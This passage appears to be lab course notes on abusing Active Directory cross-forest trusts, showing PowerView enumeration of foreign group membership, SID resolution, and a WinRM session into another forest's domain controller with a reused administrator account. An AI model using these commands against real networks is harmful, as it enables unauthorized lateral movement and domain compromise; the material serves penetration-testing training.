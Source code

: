 ## Admin Password Re-Use & Group Membership
###### In environments with bidirectional forest trusts, attackers can exploit password reuse or cross-forest group membership — compromising an admin in one forest (Domain A) may grant access to another (Domain B) if the same or similarly named user exists with the same password, or is added to privileged groups across the trust.
###### We can use the PowerView function Get-DomainForeignGroupMember to enumerate groups with users that do not belong to the domain, also known as foreign group membership. Let's try this against the FREIGHTLOGISTICS.LOCAL domain with which we have an external bidirectional forest trust.
## Using Get-DomainForeignGroupMember

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```
###### The above command output shows that the built-in Administrators group in FREIGHTLOGISTICS.LOCAL has the built-in Administrator account for the INLANEFREIGHT.LOCAL domain as a member. We can verify this access using the Enter-PSSession cmdlet to connect over WinRM.
## Accessing DC03 Using Enter-PSSession

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```
